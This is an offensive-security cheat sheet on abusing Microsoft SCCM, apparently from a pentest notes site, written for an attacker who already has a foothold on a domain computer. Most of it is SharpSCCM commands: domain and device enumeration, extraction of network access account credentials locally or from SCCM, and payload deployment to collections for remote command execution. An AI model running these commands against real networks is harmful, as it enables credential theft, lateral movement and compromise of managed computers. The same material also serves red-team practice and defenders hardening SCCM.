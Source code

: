 # SCCM Abuse
---

## Vulnerability

Systems Center Configuration Manager (SCCM) is a Microsoft product to manage automated tasks on a collection of - *domain joined or not* - computers, such as application deployments, updates, patches, and configuration. If not properly configured, it could be abused to escalate your privileges on a computer, lateralize in the domain or even keep persistence.

## Prerequisites

* Initial foothold on a domain joined computer.

## Exploit

Following exploit will use [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) tool.

### Enumeration

{: .warning }
> Information you will enumerate below are **updated in SCCM every 7 days** by default. Take that into consideration.

```powershell
# Get current management endpoint.
./SharpSCCM.exe local site-info --no-banner

# Get principals with GenericAll permissions on SCCM container.
./SharpSCCM.exe get site-info -d $domain --no-banner

# Get collections.
./SharpSCCM.exe get collections --no-banner

# Get collection's members.
./SharpSCCM.exe get collection-members -n $CollectionName --no-banner

# Get administrator accounts.
./SharpSCCM.exe get class-instances SMS_Admin --no-banner

# Get all devices.
./SharpSCCM.exe get devices --no-banner

# Get devices containing `$COMPUTER` in their name.
./SharpSCCM.exe get devices -n $COMPUTER --no-banner

# Get devices containing `$COMPUTER` in their name and filter on properties.
./SharpSCCM.exe get devices -n $COMPUTER -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

# Get devices on which `$Username` was the last to login.
./SharpSCCM.exe get devices -u $Username -p IPAddresses -p IPSubnets -p Name --no-banner
```

### Extract network access account credentials

The purpose of these credentials is for **not** domain-joined computers to access SCCM Software Distribution Points. They should have read-only access to it, but they are often over privileged because of misconfigurations.

```powershell
# You can replace `-m wmi` by `-m disk`.
./SharpSCCM.exe local naa -m wmi --no-banner

# Rather than extracting locally, you can - kindly - ask to SCCM.
./SharpSCCM.exe get naa --no-banner
```

### Deploy applications

If you are *Full Administrator* or *Application Administrator* of a device or a collection, you can execute commands on it.

```powershell
./SharpSCCM.exe exec -n $CollectionName -p $PayloadPath --no-banner
```

## Useful links

* [Fundamentals of role-based administration for SCCM](https://learn.microsoft.com/en-us/mem/configmgr/core/understand/fundamentals-of-role-based-administration)